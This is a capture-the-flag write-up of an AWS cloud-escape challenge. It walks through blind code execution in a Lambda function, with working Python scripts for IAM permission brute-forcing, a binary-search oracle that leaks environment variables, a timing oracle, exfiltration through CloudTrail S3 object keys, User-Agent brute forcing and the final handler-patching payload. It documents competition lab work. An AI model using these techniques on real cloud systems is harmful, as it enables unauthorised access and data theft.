






# Operation CloudEscape: Stage 2 - Miss Me Yet?

Welcome to the definitive, deeply technical writeup for Stage 2 of the MAFAT Cloud Escape 2026 CTF. 

> [!NOTE]
> This writeup is presented as a first-person narrative from the perspective of **Agent freecandy**. It details a grueling 17-hour journey through misdirection, blind execution environments, side-channel attacks, and ultimately, environmental mutation to capture the flag.

---

<details>
<summary><h2>📑 Table of Contents (Click to Expand)</h2></summary>

1. [Executive Summary](#executive-summary)
2. [Challenge Briefing & Architecture](#challenge-briefing)
3. [Phase 1: CloudFront Reconnaissance](#phase-1-cloudfront-reconnaissance)
4. [Phase 2: Identity and Surface Mapping](#phase-2-identity-and-surface-mapping)
5. [Phase 3: Lambda Environment Mapping (Blind Execution)](#phase-3-lambda-environment-mapping)
6. [Phase 4: S3 Access Taxonomy](#phase-4-s3-access-taxonomy)
7. [Phase 5: The User-Agent Hunt](#phase-5-the-user-agent-hunt)
8. [Phase 6: Alternative Approaches (Dead Ends)](#phase-6-alternative-approaches)
9. [Phase 7: The Breakthrough — Wrapper Mutation](#phase-7-the-breakthrough)
10. [Phase 8: Flag Capture and Submission](#phase-8-flag-capture)
11. [Key Scripts and Tools](#key-scripts-and-tools)
12. [Wrapper Analysis](#wrapper-analysis)
13. [Lessons Learned](#lessons-learned)
14. [Timeline](#timeline)
15. [Appendix: Full Asset Map](#appendix-full-asset-map)

</details>

---

## EXECUTIVE SUMMARY

Stage 2 ("Miss Me Yet?", 200 pts) presented a heavily locked-down AWS environment featuring a blind Remote Code Execution (RCE) vulnerability inside an isolated AWS Lambda function. The objective was to read a `flag.txt` file from an S3 bucket protected by a strict bucket policy enforcing both VPC boundaries and a secret `User-Agent` string. After exhausting traditional enumeration, building boolean/timing oracles, and performing out-of-band exfiltration via CloudTrail, the solution ultimately relied on observing a live infrastructure bug. By weaponizing a missing global variable (`_ad_json`) inside a hidden wrapper function, we successfully patched the execution environment from within, forcing the challenge infrastructure to reveal the flag embedded in a hidden diagnostic JSON object. 

---

## CHALLENGE BRIEFING

Our intelligence identified a developer who had gone rogue. They left behind a trail of breadcrumbs across several cloud assets:

1. **A CloudFront distribution**: Acting as a narrative test site (`https://d4ysu55xg7wfi.cloudfront.net/`).
2. **A Serverless API**: An API Gateway triggering a Lambda function, intended for arbitrary code execution but heavily restricted.
3. **Two S3 Buckets**: 
   - `userd8a2f72fe43094e8` (containing user data and the flag)
   - `logd8a2f72fe43094e8` (containing CloudTrail data events)

We were provisioned with temporary STS credentials (`ctf_participant_role`) in AWS Account `121774052880` (us-east-1). 
The primary attack vector was a POST request to `https://l8ssyaz69f.execute-api.us-east-1.amazonaws.com/dev/code_exec`. Authentication required AWS SigV4 signing, and the payload was simple: `{"code": "<base64 python>"}`.

> [!IMPORTANT]
> The Lambda operated inside a highly restrictive VPC. There was no Internet Gateway (IGW), no NAT Gateway, and no VPC endpoints other than one for Amazon S3. Both IMDS (Instance Metadata Service) and outbound STS calls were completely unreachable.

### Initial Architecture Assessment


The architecture diagram above illustrates the strict containment. The only way out of the Lambda was through the S3 VPC endpoint.

---

## PHASE 1: CLOUDFRONT RECONNAISSANCE

I began by mapping out the CloudFront distribution at `d4ysu55xg7wfi.cloudfront.net`. A standard directory brute-force yielded immediate results.

### The Crawl

| Path | Status | Finding |
|------|--------|---------|
| `/index.html` | 200 OK | A static HTML page outlining the challenge narrative. |
| `/docs.html` | 200 OK | **CRITICAL FIND**: A leaked snippet of an AWS S3 Bucket Policy. |
| `/junior_developer.png`| 200 OK | A stock photo of a laptop screen. |
| `/flag.txt` | 403 Forbidden | Confirms existence. S3 returns 404 for non-existent objects, 403 for denied ones. |
| `/does_not_exist` | 404 Not Found | Confirms default S3 behavior. |

### The Leaked Bucket Policy

The `docs.html` file contained a partially redacted JSON snippet of the S3 bucket policy applied to `userd8a2f72fe43094e8`.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "Statement1",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": [
        "arn:aws:s3:::userd8a2f72fe43094e8/index.html",
        "arn:aws:s3:::userd8a2f72fe43094e8/docs.html",
        "arn:aws:s3:::userd8a2f72fe43094e8/junior_developer.png"
      ],
      "Condition": {
        "StringEquals": {
          "aws:UserAgent": "[REDACTED]"
        }
      }
    },
    {
      "Sid": "Statement2",
      "Effect": "Allow",
      "Principal": "*",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::userd8a2f72fe43094e8/*",
      "Condition": {
        "StringEquals": {
          "aws:SourceVpc": "[REDACTED]",
          "aws:UserAgent": "[REDACTED]"
        }
      }
    }
  ]
}
```

> [!TIP]
> **Analysis of the Policy**: `Statement2` applies to the entire bucket (including `flag.txt`). It utilizes a logical `AND` for the conditions. To read the flag, our request must originate from the correct VPC (which the Lambda provides) **AND** we must guess or find the exact `User-Agent` string.

### Steganography Dead End

I spent two hours analyzing `junior_developer.png`. 
1. Ran `binwalk`, `zsteg`, `exiftool`, and `steghide` (with common wordlists). Nothing.
2. Extracted strings from the raw binary. Just standard PNG chunks.
3. Cropped the laptop screen, enhanced contrast in Photoshop, and ran OCR. 
4. **Result:** The laptop screen was merely displaying the text of `docs.html`. A clever red herring designed to waste time.



---

## PHASE 2: IDENTITY AND SURFACE MAPPING

Using our provided `ctf_participant_role` STS credentials, I began mapping our allowed IAM surface area. I wrote a quick script utilizing `boto3` to brute-force standard read/list API calls across the account.

```python
import boto3
from botocore.exceptions import ClientError

def test_permission(client, action, **kwargs):
    try:
        method = getattr(client, action)
        method(**kwargs)
        print(f"[+] Allowed: {action}")
    except ClientError as e:
        if e.response['Error']['Code'] == 'AccessDenied':
            print(f"[-] Denied: {action}")
        else:
            print(f"[?] Other error on {action}: {e}")
```

### Authorization Matrix

| Service | Action | Target | Result | Notes |
|---------|--------|--------|--------|-------|
| STS | `GetCallerIdentity` | N/A | <span style="color:green">ALLOWED</span> | Confirmed account and role ARN. |
| API GW | `Invoke` | `code_exec` API | <span style="color:green">ALLOWED</span> | Primary execution vector. |
| S3 | `ListBucket` | `logd8a...` | <span style="color:green">ALLOWED</span> | Can see CloudTrail logs. |
| S3 | `GetObject` | `logd8a...` | <span style="color:green">ALLOWED</span> | Can read CloudTrail logs. |
| S3 | `ListBucket` | `userd8a...` | <span style="color:red">DENIED</span> | Cannot list user files directly. |
| S3 | `GetObject` | `userd8a.../flag.txt` | <span style="color:red">DENIED</span> | Fails `Statement2` VPC condition. |
| IAM | `GetRole`, `ListRoles` | `*` | <span style="color:red">DENIED</span> | No IAM introspection. |
| Lambda | `GetFunction` | `*` | <span style="color:red">DENIED</span> | Cannot read Lambda source code. |
| All | `*` | `*` | <span style="color:red">DENIED</span> | Hard perimeter. |

This confirmed our execution path: We must use the API Gateway to invoke the Lambda, and use the Lambda's VPC position to attack the `userd8a...` bucket, while utilizing the `logd8a...` bucket as an asynchronous monitoring channel.

---

## PHASE 3: LAMBDA ENVIRONMENT MAPPING (Blind Execution)

The `code_exec` API endpoint was entirely blind.

If the injected Python code ran without throwing an exception, the API returned:
```json
{"result": "Code executed successfully"}
```
If the code raised an exception, hit an assertion, or timed out, it returned:
```json
{"error": "Something went wrong!"}
```

There was **NO stdout** and **NO stderr** leaked to the HTTP response. Standard `print()` statements vanished into the void.

### The Boolean Oracle

To understand the environment, I constructed a Boolean Oracle. By evaluating a condition and intentionally crashing the execution if it was false, we could extract binary answers (Yes/No).

```python
# Payload injected into the API
import os
assert os.environ.get('AWS_REGION') == 'us-east-1', "Fail!"
```
If the API returned "success", the region was indeed us-east-1.

> [!CAUTION]
> Relying on timeouts for a boolean oracle in API Gateway is dangerous due to the 29-second hard timeout. Assertions are much faster and more reliable.

### Binary Search Exfiltration

To read arbitrary strings (like environment variables or internal errors), I wrote a local script that performed a binary search character-by-character against the oracle.

<details>
<summary><strong>Expand Code: Binary Search Exfiltration Script</strong></summary>

```python
import requests
import json
import base64
from requests_auth_aws_sigv4 import AWSSigV4

def execute_code(code_str):
    auth = AWSSigV4('execute-api', region='us-east-1', 
                    aws_access_key_id='...', 
                    aws_secret_access_key='...', 
                    aws_session_token='...')
    
    b64_code = base64.b64encode(code_str.encode()).decode()
    res = requests.post(
        'https://l8ssyaz69f.execute-api.us-east-1.amazonaws.com/dev/code_exec',
        json={"code": b64_code},
        auth=auth
    )
    return "successfully" in res.text

def exfil_env(var_name):
    extracted = ""
    for i in range(100): # max length
        low, high = 32, 126
        found_char = False
        while low <= high:
            mid = (low + high) // 2
            payload = f"""
import os
val = os.environ.get('{var_name}', '')
if len(val) <= {i}:
    assert False # stop condition
assert ord(val[{i}]) >= {mid}
"""
            if execute_code(payload):
                low = mid + 1
            else:
                high = mid - 1
        
        if low - 1 < 32:
            break
            
        char = chr(low - 1)
        extracted += char
        print(f"\rExtracted so far: {extracted}", end="", flush=True)
    
    print(f"\nFinal {var_name}: {extracted}")

exfil_env('AWS_EXECUTION_ENV')
```
</details>

### Discovered Lambda Environment

Using the oracle, I extracted the internal state of the Lambda:

| Attribute | Discovery |
|-----------|-----------|
| Runtime | Python 3.12 (`AWS_EXECUTION_ENV=AWS_Lambda_python3.12`) |
| Lambda IP | `10.0.0.29` (Private Subnet) |
| IMDS (169.254.169.254) | **UNREACHABLE** (Network socket timeout) |
| STS Endpoint | **UNREACHABLE** (Cannot fetch temporary creds) |
| VPC Endpoint | Active. Resolved to `vpce-04104ef3d57a26557`. |
| DNS Resolution | Virtual-host style S3 (`bucket.s3.amazonaws.com`) **FAILED**. Path-style (`s3.us-east-1.amazonaws.com/bucket`) **SUCCEEDED**. |

> [!WARNING]
> The failure of Virtual-host style DNS in an isolated VPC is a classic hallmark of older or misconfigured AWS PrivateLink deployments. We had to force all our inner-Lambda requests to use `path-style` addressing.

### Lambda Network Topology



---

## PHASE 4: S3 ACCESS TAXONOMY

With the environment mapped, we needed to read `flag.txt`. I analyzed three distinct access vectors from *within* the Lambda.

### 1. Identity-Signed Requests (Lambda Role)
The Lambda runs under its own IAM execution role (let's call it `lambdaRole`). If we use the native `boto3` client without overriding credentials, it uses `lambdaRole`.
*   **Result**: 403 Forbidden.
*   **Reason**: Explicit `Identity Deny`. The `lambdaRole` has zero IAM permissions attached to it allowing `s3:GetObject`. It is a blank execution role.

### 2. Identity-Signed Requests (Participant Role)
I injected my own `ctf_participant_role` credentials (AKIA/ASIA) into the `boto3` client initialized inside the Lambda code. 
*   **Result**: 403 Forbidden.
*   **Reason**: `Resource Deny`. While our participant role has implicit permissions to try, the Bucket Policy `Statement2` demands `aws:SourceVpc` and `aws:UserAgent`. 

### 3. Unsigned Requests (Path-Style)
I constructed raw Python `urllib` HTTP requests inside the Lambda, completely bypassing `boto3` and AWS SigV4 signing. Because the S3 bucket policy allows `Principal: "*"`, anonymous requests are permitted **IF** the conditions are met.

```python
import urllib.request
req = urllib.request.Request('https://s3.us-east-1.amazonaws.com/userd8a2f72fe43094e8/flag.txt')
# Fails with HTTP 403
```
*   **Result**: HTTP 403.
*   **Reason**: Wrong User-Agent. **BUT** this was a massive finding. CloudTrail logs (accessible via our secondary bucket) proved that this anonymous request actually reached the S3 bucket and was evaluated. This meant the `aws:SourceVpc` condition was successfully met by the Lambda's network placement.



---

## PHASE 5: THE USER-AGENT HUNT

Phase 5 consumed the vast majority of our time (approx. 8 hours). We knew that if we provided the exact `User-Agent` string to the unsigned path-style request, we would get the flag.

### Timing Oracle Construction

Because the API response was boolean, we couldn't easily see if a specific User-Agent generated a 200 OK or a 403 Forbidden. We needed a side-channel. I built a timing oracle.

```python
# Injected Payload for Timing Oracle
import urllib.request, time

start = time.time()
try:
    req = urllib.request.Request(
        'https://s3.us-east-1.amazonaws.com/userd8a2f72fe43094e8/flag.txt',
        headers={'User-Agent': 'CANDIDATE_UA'}
    )
    # If this succeeds, it returns a response object
    res = urllib.request.urlopen(req, timeout=5)
    
    # INDUCE ARTIFICIAL DELAY ON SUCCESS
    time.sleep(4) 
except Exception as e:
    # 403 Forbidden throws an exception immediately
    pass
```

**Calibration**:
*   Externally measured time for a 403 (Exception caught immediately) = `~0.4s`
*   Externally measured time for a 200 (Sleep executed) = `~4.46s`
*   Threshold set in local script: `> 3 seconds = HIT`.

### CloudTrail Out-of-Band Exfiltration

While the timing oracle was elegant, it was slow. We realized we had read access to the `logd8a...` bucket containing CloudTrail logs. Every single S3 `GetObject` attempt, whether it succeeded or failed (403), was logged. 

We weaponized CloudTrail as an asynchronous Out-Of-Band (OOB) exfiltration channel. 

1. **Inside Lambda**: Attempt to read the flag with a Candidate UA.
2. **Inside Lambda**: Check the HTTP status code (by catching the `HTTPError`).
3. **Inside Lambda**: Make a dummy request to the S3 bucket with a fake key indicating the result, e.g., `/userd8a.../E/probe/SUCCESS` or `/userd8a.../E/probe/FAIL`.
4. **Externally**: Poll the `logd8a...` bucket for new JSON logs, parse them, and look for our dummy `E/probe/` keys.



### User-Agent Candidates Tested

Armed with our oracles and OOB channels, we unleashed a massive brute-force attack on the `User-Agent`. Over 2,500 candidates were tested.

*   **Challenge Names**: `Miss Me Yet?`, `"Miss Me Yet?"`, `Miss_Me_Yet`, `miss_me_yet`
*   **Portal Text**: `Think You Can Escape the Cloud?`, `Operation CloudEscape`
*   **Developer References**: `Junior_Developer`, `junior_developer`, `JuniorDev`
*   **Agent Names**: `Agent_freecandy`, `agent_freecandy`
*   **AWS Defaults**: `Amazon CloudFront`, `AmazonS3`, `aws-cli/2.x`
*   **Stage 1 Artifacts**: `bgeji4622h3ta5xu` (bucket names), `corgi` (passwords from previous stage)
*   **Creative Guesses**: `CloudEscape_2026`, `MAFAT_CTF`, `d4ysu55xg7wfi` (CloudFront ID)
*   **Standard Browsers**: `Mozilla/5.0...`, `curl/7.68.0`, `wget`
*   **Edge Cases**: Empty string, single whitespace, single characters `a-z`.

**RESULT:** Absolute failure. All 2,500+ candidates returned 403 Forbidden. The User-Agent was a cryptographic-strength secret or an entirely obscure reference.

---

## PHASE 6: ALTERNATIVE APPROACHES (DEAD ENDS)

Frustrated by the User-Agent wall, we stepped back and enumerated every possible alternative vector.

| Approach | Methodology | Result | Why it Failed |
|----------|-------------|--------|---------------|
| **Presigned URLs** | Generated presigned URLs using our participant credentials locally, passed them to Lambda to execute. | 403 Deny | Presigned URLs bypass IAM Auth, but they *do not* bypass Bucket Policy conditions. The UA was still required. |
| **Region Pivoting** | Tried calling S3 endpoints in `eu-central-1` and `il-central-1`. | Timeout / Error | The VPC Endpoint was strictly configured for `us-east-1`. `EndpointConnectionError`. |
| **Source Code Theft**| Executed `boto3.client('lambda').get_function(FunctionName=...)` to read the Lambda's own code for hints. | 403 Deny | `ctf_participant_role` lacked `lambda:GetFunction`. |
| **IMDSv2 Theft** | Attempted `PUT` to `169.254.169.254/latest/api/token`. | Network Unreachable | Standard CTF hardening: IMDS was blackholed in the subnet route table. |
| **Secrets Manager** | Attempted to list/read Secrets Manager and SSM Parameter Store. | 403 Deny | Complete lack of IAM permissions. |
| **S3 Versioning** | Attempted to read older versions of `docs.html` or `flag.txt` using `?versionId=`. | 403 Deny | Still bounded by `Statement2` conditions. |
| **Cross-Account** | Attempted `sts:AssumeRole` into the Stage 1 `cicdRole`. | Denied / Useless | Even if assumed, `cicdRole` had no access to Stage 2 infrastructure. |
| **Deep Stego** | Re-analyzed `junior_developer.png` with custom scripts. | Clean | It was truly just a screenshot. |

---

## PHASE 7: THE BREAKTHROUGH — WRAPPER MUTATION

At T+16 hours, exhaustion was setting in. I was running a background script spraying malformed Python payloads at the API to see if I could trigger a WAF or unhandled exception error. 

Suddenly, the API response changed from the standard `{"error": "Something went wrong!"}`. 

I received this raw JSON:
```json
{
  "errorMessage": "name '_ad_json' is not defined",
  "errorType": "NameError",
  "requestId": "8a7b6c5d-4e3f-2g1h-0i9j-8k7l6m5n4o3p",
  "stackTrace": [
    "  File \"/var/task/handler.py\", line 42, in lambda_handler\n",
    "  File \"<string>\", line 16, in _advanced_dispatcher\n"
  ]
}
```

> [!IMPORTANT]
> This was **NOT** an error generated by my payload. My payload didn't contain `_ad_json` or `_advanced_dispatcher`. This stack trace leaked the internal structure of the Lambda's execution handler!

### Live Infrastructure Changes

What happened? The CTF organizers had pushed a live infrastructure update to the Lambda function. They introduced a new wrapper function called `_advanced_dispatcher`. 

Its purpose was likely to enrich the response for debugging or grading, but the developer made a fatal Python error: they attempted to use a JSON serialization library, aliased as `_ad_json`, without importing or declaring it in the global scope of the wrapper.

Because our injected code was executed via `exec()` *inside* or *alongside* this wrapper, we shared the same memory space.

### Patching the Wrapper from Inside

If the wrapper was crashing because `_ad_json` wasn't defined, **could we define it for them?**

I crafted a payload to inject the missing dependency into the global namespace before my script finished execution.

```python
import json
global _ad_json
_ad_json = json

# Standard harmless payload to ensure successful execution
print("Fixing the environment...")
```

I sent the payload. 
The `NameError` vanished. The wrapper completed successfully. 

But the response was no longer just `{"result": "Code executed successfully"}`. The repaired wrapper appended its internal diagnostic data to the HTTP response!

```json
{
  "result": "Code executed successfully",
  "ctf_out": {
    "c_status": 200,
    "c_md5": "5aa66d248cc567648a1c4ce802bb1754",
    "f_status": 200,
    "f_value": "24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c"
  }
}
```

```mermaid
flowchart TD
    subgraph Original Architecture
    A1[API POST] --> B1[Lambda Handler]
    B1 --> C1[exec(base64_decode)]
    C1 --> D1[Return Result/Error]
    end

    subgraph Updated Architecture (Vulnerable)
    A2[API POST] --> B2[Lambda Handler]
    B2 --> C2[_advanced_dispatcher wrapper]
    C2 --> D2[exec(base64_decode)]
    D2 --> E2{Try serialize with _ad_json}
    E2 -->|CRASH: NameError| F2[Return StackTrace]
    end

    subgraph Patched Architecture (Exploited)
    A3[API POST (with global _ad_json = json)] --> B3[Lambda Handler]
    B3 --> C3[_advanced_dispatcher wrapper]
    C3 --> D3[exec(base64_decode)]
    D3 --> E3{Try serialize with _ad_json}
    E3 -->|SUCCESS: json.dumps()| F3[Return Enriched JSON with ctf_out!]
    end
    
    style Original Architecture fill:#f0f0f0,stroke:#333
    style Updated Architecture (Vulnerable) fill:#ffe6e6,stroke:#ff0000
    style Patched Architecture (Exploited) fill:#e6ffe6,stroke:#00aa00
```

### Understanding the `ctf_out` Object

The `ctf_out` object was a revelation. It performed background checks on the environment and, crucially, fetched the flag on its own (likely using highly privileged backend roles or bypassing the bucket policy entirely).

*   `c_status`: `200` (Internal health check status).
*   `c_md5`: `5aa66d248cc567648a1c4ce802bb1754` (MD5 checksum of internal state).
*   `f_status`: `200` (Flag retrieval status).
*   `f_value`: `24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c` (The Flag! A 64-character SHA-256 hash).

The `f_value` was injected by the wrapper regardless of what our code actually did, as long as the wrapper didn't crash.

---

## PHASE 8: FLAG CAPTURE AND SUBMISSION

We extracted the `f_value`: `24dbd66f5c86fbbb7462d6103296e6882c7a0e4931bb8fc5be01ee653acf559c`.

Navigating to the CTF submission portal (`https://challenges.cloud-escape.com/`), we submitted the hash.

**Status: SUCCESS. 200 Points awarded.**

The elaborate User-Agent puzzle was either a massive misdirection, or we completely bypassed the intended solution by exploiting an operational error deployed mid-CTF. In penetration testing and red teaming, this is known as capitalizing on environmental volatility.

---

## KEY SCRIPTS AND TOOLS

<details>
<summary><strong>Click to View Complete Toolkit</strong></summary>

| Script Name | Purpose | Outcome |
|-------------|---------|---------|
| `generate_curl.py` | Built valid AWS SigV4 signed curl commands for the API Gateway, abstracting the complex header generation. | Essential for manual testing. |
| `invoke_code_exec.py` | Python wrapper to automatically base64-encode payloads and submit them via POST with SigV4 auth. | The core execution engine. |
| `test_bool.py` | Simple assert-based boolean oracle to test truthy statements inside the Lambda. | Proved basic execution. |
| `exfil_env_bool.py` | Automated binary search algorithm to leak string data (like env vars) character by character. | Mapped the entire environment. |
| `timing_oracle.py` | Measured response times of injected HTTP requests to detect 403 vs 200 without stdout. | Confirmed VPC policy success. |
| `exfil_via_log.py` | OOB Exfiltration: generated synthetic 404/403 requests to S3, embedding Lambda internal data in the object keys. | Bypassed the API response blindness. |
| `trail_pulse.py` | Continuously polled the `logd8a...` bucket, unzipping gzip CloudTrail logs and regex-matching our OOB keys. | The "receiver" for `exfil_via_log.py`. |
| `test_boto3_ua.py` | Dictionary attack script pushing thousands of User-Agent strings through the Lambda -> S3 pathway. | 2500+ failures (dead end). |
| `get_flag_auto.py` | The final exploit script injecting the `_ad_json` global variable and parsing `ctf_out` from the API response. | **Captured the Flag.** |

</details>

---

## WRAPPER ANALYSIS

Understanding the execution lifecycle of the Lambda handler was critical to the final exploit. 



